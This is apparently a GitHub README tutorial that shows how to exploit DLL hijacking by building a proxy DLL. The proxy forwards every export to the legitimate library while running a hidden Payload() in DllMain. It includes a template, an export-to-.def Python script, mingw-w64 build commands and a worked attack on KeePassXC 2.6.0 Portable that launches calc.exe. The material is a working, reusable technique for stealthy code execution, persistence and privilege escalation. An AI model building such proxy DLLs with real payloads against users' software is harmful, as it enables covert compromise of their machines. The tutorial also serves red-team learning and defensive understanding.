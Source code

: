 # Exploiting DLL Hijacking by DLL Proxying Super Easily

## TL;DR

This is a tutorial about exploiting DLL Hijack vulnerability
without crashing the application. The method used is called DLL Proxying.

There are various Visual Studio projects for Windows about this, but
here is how to build and **cross-compile the Proxy DLL with
[mingw-w64](http://mingw-w64.org/doku.php) super easily on Linux**.

## Introduction

DLL Hijacking in a nutshell: there is a search order (of predefined paths) for
an application to look for required DLLs, and if it is possible to put a malicious
DLL with the same name in the search path before the legitimate target DLL, then
it is possible to hijack the execution flow by the replacement exported methods
of the malicious DLL.

It can be used by attackers for persistence or even privilege escalation.
Under some special conditions and configurations, it can be also used for
domain level privilege escalation and even for remote code execution.

There are two important requirements of the malicious replacement DLL:

1. The malicious DLL should export the functions (at least by dummy implementations)
which the application tries to import otherwise the application fails to load
and malicious DLL would also not be loaded.

2. If the malicious DLL exports the functions required by the application
but does not implement them equivalently to the legitimate DLL, the application
loads the DLL and probably executes the malicious code (e.g. in the `DllMain()`
function), but afterwards the application crashes.

The solution for these two problems is DLL Proxying: create a malicious DLL
which exports all of the functions of the legitimate DLL and instead of
implementing them, just forward the calls to the legitimate DLL.

This way the application behaves normally without crashing and it can
execute the malicious code silently in the background.

## Creating the Proxy DLL

Let's assume the target DLL we want to proxy to is `target_orig.dll` and the proxy DLL
will be `target.dll`. It is possible to use a basic template for `target.c`:

```c
void Payload()
{
    // Malicious payload should be implemented here...
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
  switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
      Payload();
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    case DLL_PROCESS_DETACH:
      break;
    }
  return TRUE;
}
```

Defining the exports is possible easily during link-time by using
[Module-Definition (.def) files](https://docs.microsoft.com/en-us/cpp/build/reference/module-definition-dot-def-files?view=vs-2019)
which is fortunately supported by the mingw-w64 cross-compiler toolset. In the `.def` file it is also possible
to instruct the linker to use external references for the exported functions to the legitimate DLL file.

The [required syntax](https://docs.microsoft.com/en-us/cpp/build/reference/exports?view=vs-2019) for the `.def` file exports:

```
EXPORTS
  exported_name1=legitimate_dll_module.exported_name1 @ordinal1
  exported_name2=legitimate_dll_module.exported_name2 @ordinal2
  ...
```

In order to generate the `.def` file all we need is the export list of the legitimate DLL.
Extracting the export list is really simple by using the Python [pefile](https://github.com/erocarrera/pefile)
Portable Executable (PE) parser module. Here is how to do it
(script is included [here](./gen_def.py) in the repo):

```python
import pefile

dll = pefile.PE('target_orig.dll')

print("EXPORTS")
for export in dll.DIRECTORY_ENTRY_EXPORT.symbols:
    if export.name:
        print('{}=target_orig.{} @{}'.format(export.name.decode(), export.name.decode(), export.ordinal))
```

The output of this short script is the required `target.def` file for the mingw-w64 linker.

Now compiling and linking is trivial by using mingw-w64 cross-compiler (e.g. on Linux, targeting Windows 32-bit arch):

```
i686-w64-mingw32-gcc -shared -o target.dll target.c target.def -s
```

The resulted `target.dll` proxies all of the calls to the exported functions to the legitimate `target_orig.dll`.
This way the application depending on the methods of `target.dll` is working normally, but it executes our
`Payload()` function at initialization. ;)

This is not new, this is a well-known technique, but the above mingw-w64 method with the module-definition file
for creating the Proxy DLL is one of the simplest.

## Example

Let's take an arbitrary DLL Hijacking vulnerable app (it is easy because there are many): e.g.
[KeePassXC 2.6.0 Portable (32-bit)](https://github.com/keepassxreboot/keepassxc/releases/download/2.6.0/KeePassXC-2.6.0-Win32-Portable.zip).

Using [Sysinternals](https://docs.microsoft.com/en-us/sysinternals/) [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)
it is easy to detect a potentional DLL Hijacking issue:

![](screenshots/keepassxc_dll_hijack_vuln_detected.png)

Here the `KeePassXC.exe` app tries to load the library `version.dll`,
first from the path of the exe resulting `NAME NOT FOUND` then
it finds the dll in the official `C:\Windows\SysWOW64` folder.

Let's try to target this `version.dll` loading:
let's put a malicious version of the dll to the exe folder.

Copy the legitimate one from `C:\Windows\SysWOW64\version.dll` to
the Linux host as `version_orig.dll`.

Generating the `version.def` file containing the export
redirections by the Python script:

```
gen_def.py version_orig.dll > version.def
```

Here is [version.c](./version.c) adding an example `Payload()`
launching `calc.exe` to the above template:

```c
#include <processthreadsapi.h>
#include <memoryapi.h>

void Payload()
{
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  
  char cmd[] = "calc.exe";
  
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));

  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
  switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
      Payload();
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    case DLL_PROCESS_DETACH:
      break;
    }
  return TRUE;
}
```

Cross-compiling and linking the malicious Proxy DLL using mingw-w64:

```
i686-w64-mingw32-gcc -shared -o version.dll version.c version.def -s
```

Copy the malicious `version.dll` proxy and the legitimate `version_orig.dll`
to the home folder of KeePassXC:

![](screenshots/keepassxc_malicious_dll_added.png)

And now launch `KeePassXC.exe`! The application should work well and
behave normally and our payload is also excecuted (`calc.exe` launched). :)

![](screenshots/keepassxc_hijacked_calc.png)


